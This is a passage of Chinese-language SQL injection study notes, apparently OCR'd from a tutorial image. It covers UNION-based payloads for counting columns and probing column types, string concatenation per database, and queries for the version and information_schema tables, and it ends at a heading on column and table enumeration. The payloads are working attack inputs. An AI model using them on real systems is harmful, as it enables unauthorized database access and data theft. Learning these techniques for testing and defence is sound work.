    ```sql
   ' UNION SELECT NULL--
   ' UNION SELECT NULL,NULL--
   ' UNION SELECT NULL,NULL,NULL--
   ```

   确定返回列数。随后通过使用所需类型替换NULL进行测试。
   如

   ```sql
   ' UNION SELECT 'a',NULL,NULL,NULL--
   ' UNION SELECT NULL,'a',NULL,NULL--
   ' UNION SELECT NULL,NULL,'a',NULL--
   ' UNION SELECT NULL,NULL,NULL,'a'--
   ```

   若不兼容，可能返回HTTP错误或数据库查询错误。

   ```sql
   Conversion failed when converting the varchar value 'a' to data type int.
   ```

   若未发生错误则包含一些附加内容（包括注入的字符串）。

3. 通过SQL注入查询特定数据
   当确定了原始SQL语句查询返回的列数和类型时，可以检索特定表中的符合类型的内容

4. 检查单个列中的多个值
   当想查询信息和列数不匹配时，使用字符串串联的格式将两个值连接在一起。

5. | Oracle     | `'foo'||'bar'`                                               |
   | :--------- | ------------------------------------------------------------ |
   | Microsoft  | `'foo'+'bar'`                                                |
   | PostgreSQL | `'foo'||'bar'`                                               |
   | MySQL      | `'foo' 'bar'` [Note the space between the two strings] `CONCAT('foo','bar')` |

### 4.查看数据库信息

在确定SQL注入存在时，获取数据库信息是目标之一，便于后续操作。

#### 可以查询版本信息

| Oracle     | `SELECT banner FROM v$version       SELECT version FROM v$instance` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT @@version`                                           |
| PostgreSQL | `SELECT version()`                                           |
| MySQL      | `SELECT @@version`                                           |

还可以确定存在哪些数据库表，以及包含那些列。在大多数数据库中可以执行

```sql
SELECT * FROM information_schema.tables
```

#### 获取数据库的列和表信息
